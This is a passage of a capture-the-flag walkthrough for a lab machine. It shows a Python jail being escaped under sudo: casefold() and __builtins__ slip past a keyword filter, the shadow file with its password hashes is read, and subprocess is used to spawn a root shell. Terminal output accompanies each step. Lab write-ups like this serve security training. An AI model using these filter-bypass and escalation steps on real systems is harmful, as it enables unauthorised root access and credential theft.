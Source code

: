 This script looks like the terminal version of the Python programming language but appears to filter everything we type.
```bash
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail  
  Will you stay locked forever  
  Or will you BreakMe  
>> print('oasa')
oasa
>> a 
Wrong Input
>> print('os')  
Illegal Input

youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail  
  Will you stay locked forever 
  Or will you BreakMe  
>> print('OS'.lower())
Illegal Input
youcef@Breakme:~$
```

Words such as system, os, subprocess, import, lower, etc. are all filtered by this script. We can bypass this by using the __builtin__ module that contains built-in functions and objects. Python functions are passed to the __builtin__ module as strings, we can perform case manipulation with the help of the casefold() function which is not filtered by the script to bypass the filter and use OS instead of os. This can be used to read the shadow file as shown below.
```bash
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail  
  Will you stay locked forever  
  Or will you BreakMe  
>> 
>> print('OS'.casefold())
os
>> print(__builtins__.__dict__['OPEN'.casefold()])
<built-in function open>
>> print(*file)
root:$y$j9T$DrCC/6peuPA6moD2I.f850$oMujKQSbqtMYZ/ZFQPLsfzWnXZ.hcJtHMRjksIqUgqA:19571:0:99999:7:::
<SNIP>
john:$y$j9T$F2iqohP1./v0gBs5Pj8Jw.$ZImaERRcmjCbG517uQF/o5TfYfOIzAIkhPU8ggxO9b6:19569:0:99999:7:::
youcef:$y$j9T$MpSx6u0o1TWZMfrD7Rq7e/$HOs8S70op1xqv2Hp5PU2nzheS8s1h4U5rh3YOSoUtc.:19570:0:99999:7:::
```

Cracking this password may be time-consuming for us, so let's use this same method to import the subprocess module and run a shell.
```bash
>> s=__builtins__.__dict__['__IMPORT__'.casefold()]('SUBPROCESS'.casefold())
>> s.run(['WHOAMI'.casefold()])
root
>> s.run(['BASH'.casefold()])
root@Breakme:/home/youcef# cd /root
root@Breakme:~# ls -la
total 52
drwx------  3 root root 4096 Mar 21  2024 .
drwxr-xr-x 18 root root 4096 Aug 17  2021 ..
lrwxrwxrwx  1 root root    9 Aug  3  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rwx------  1 root root 5438 Jul 31  2023 index.php
-rw-r--r--  1 root root 5000 Mar 21  2024 jail.py
-rw-r--r--  1 root root    0 Mar 21  2024 .jail.py.swp
-rw-------  1 root root   33 Aug  3  2023 .lesshst
drwxr-xr-x  3 root root 4096 Aug 17  2021 .local
-rw-------  1 root root 7575 Feb  4  2024 .mysql_history
```